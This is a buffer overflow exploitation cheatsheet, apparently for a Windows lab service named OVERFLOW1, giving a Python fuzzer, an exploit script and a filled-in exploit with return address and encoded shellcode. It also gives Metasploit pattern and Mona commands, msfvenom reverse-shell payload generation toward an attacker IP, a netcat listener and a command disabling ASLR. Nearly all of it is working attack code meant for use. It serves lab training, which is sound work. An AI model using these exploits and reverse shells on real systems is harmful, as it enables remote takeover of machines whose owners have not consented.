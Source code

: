 # BOF Cheatsheet

### fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### exploit.py

<pre class="language-python"><code class="lang-python">#!/usr/bin/env python3

<strong>import socket
</strong>
ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
</code></pre>

### exploit\_bytes.py

```python
offset = 1308
overflow = "A" * offset
retn = "\xba\x11\x80\x14"
padding = "\x90" * 16
payload="\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\x5f\x35\xae\x3d\x83\xee\xfc\xe2\xf4 \xa3\xdd\x2c\x3d\x5f\x35\xce\xb4\xba\x04\x6e\x59\xd4\x65\x9e\xb6\x0d\x39\x25\x6f\x4b\xbe\xdc\x15\x50\x82\ xe4\x1b\x6e\xca\x02\x01\x3e\x49\xac\x11\x7f\xf4\x61\x30\x5e\xf2\x4c\xcf\x0d\x62\x25\x6f\x4f\xbe\xe4\x01\x d4\x79\xbf\x45\xbc\x7d\xaf\xec\x0e\xbe\xf7\x1d\x5e\xe6\x25\x74\x47\xd6\x94\x74\xd4\x01\x25\x3c\x89\x04\x5 1\x91\x9e\xfa\xa3\x3c\x98\x0d\x4e\x48\xa9\x36\xd3\xc5\x64\x48\x8a\x48\xbb\x6d\x25\x65\x7b\x34\x7d\x5b\xd4 \x39\xe5\xb6\x07\x29\xaf\xee\xd4\x31\x25\x3c\x8f\xbc\xea\x19\x7b\x6e\xf5\x5c\x06\x6f\xff\xc2\xbf\x6a\xf1\ x67\xd4\x27\x45\xb0\x02\x5d\x9d\x0f\x5f\x35\xc6\x4a\x2c\x07\xf1\x69\x37\x79\xd9\x1b\x58\xca\x7b\x85\xcf\x 34\xae\x3d\x76\xf1\xfa\x6d\x37\x1c\x2e\x56\x5f\xca\x7b\x6d\x0f\x65\xfe\x7d\x0f\x75\xfe\x55\xb5\x3a\x71\xd d\xa0\xe0\x39\x57\x5a\x5d\x6e\x95\x28\xb0\xc6\x3f\x5f\x34\x15\xb4\xb9\x5f\xbe\x6b\x08\x5d\x37\x98\x2b\x54 \x51\xe8\xda\xf5\xda\x31\xa0\x7b\xa6\x48\xb3\x5d\x5e\x88\xfd\x63\x51\xe8\x37\x56\xc3\x59\x5f\xbc\x4d\x6a\ x08\x62\x9f\xcb\x35\x27\xf7\x6b\xbd\xc8\xc8\xfa\x1b\x11\x92\x3c\x5e\xb8\xea\x19\x4f\xf3\xae\x79\x0b\x65\x f8\x6b\x09\x73\xf8\x73\x09\x63\xfd\x6b\x37\x4c\x62\x02\xd9\xca\x7b\xb4\xbf\x7b\xf8\x7b\xa0\x05\xc6\x35\xd 8\x28\xce\xc2\x8a\x8e\x5e\x88\xfd\x63\xc6\x9b\xca\x88\x33\xc2\x8a\x09\xa8\x41\x55\xb5\x55\xdd\x2a\x30\x15\x7a\x4c\x47\xc1\x57\x5f\x66\x51\xe8"
buffer = overflow + retn + padding + payload
with open("exploit_bytes.txt","wb") as f:
    f.write(bytes(buffer + "\n", "latin-1"))

```

### \x01 to \xff

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 1. Pattern Create

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
```

### 2. Finding offset where EIP overwrite happens

```bash
msf-pattern_offset -l 800 -q 42306142
```

{% hint style="info" %}
-l: the length of the original pattern&#x20;

-q: specify the bytes found in EIP
{% endhint %}

### 3. Find bad chars&#x20;

#### Manual method:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
```

```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```

{% hint style="info" %}
Above script will generate exploit.txt that contains the raw bytes from \x01 to \xff (By default \x00 is bad char)

Use `bvi` to edit the raw hex bytes!
{% endhint %}

* Overflow the buffer to gain control of EIP register and append the entire \x01 to \xff bytearray to the shellcode.
* Use Immunity Debugger to run the program --> click on ESP register --> `Follow in Dump`
* Check the stack values against the original bytearray to figure out the bad characters.
* After finding a bad char, note it down and remove it from the bytearray shellcode and repeat the process again until the \xff appears.

#### Mona method:

```
!mona config -set workingfolder c:\Users\admin\Desktop
```

```
!mona bytearray -b "\x00"
```

```
!mona compare -f c:\Users\admin\Desktop\bytearray.bin -a <ESP addr>
```

{% hint style="info" %}
After finding a bad char, remove it and send the remaining payload again. Find the bad chars one by one (since bad chars may affect the chars adjacent to it).
{% endhint %}

### 4. Finding a jump point

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

{% hint style="info" %}
Update the -cpb option with all the badchars you identified (including \x00)
{% endhint %}

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### 5. Generate payloads

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

{% hint style="info" %}
* -f c: To select C-formatted shellcode
* -e x86/shikata\_ga\_nai: use of the polymorphic encode shikata\_ga\_nai (It can’t be helped)
* -b “\x00\x0a..”: specifies the bad chars
{% endhint %}

{% hint style="info" %}
* For linux --> -p linux/x86/shell\_reverse\_tcp
{% endhint %}

### 6. Prepend NOPs

```
padding = "\x90" * 16
```

{% hint style="info" %}
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself.
{% endhint %}

### 7. Obtain shell

```
netcat -lvp 4444
```

### Troubleshooting

Some bad chars only appear when they are adjacent to certain chars. Hence, it is wise to check the hex values of the created shellcode against the values present in the stack (ESP --> Follow Dump)

#### To check hex values of created shellcode

```bash
xxd -g 1 -c 8 exploit_bytes.txt
```

{% hint style="info" %}
-g: number of octets per group

-c: format octets per line
{% endhint %}

#### Find Function Address

```bash
objdump -D execution-flow-windows.exe | grep <func_name>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Need to convert the address to little endian format (00401530 --> \x30\x15\x40\x00)
{% endhint %}

#### Disable ASLR for Linux

```bash
echo 0 | tee /proc/sys/kernel/randomize_va_space
```
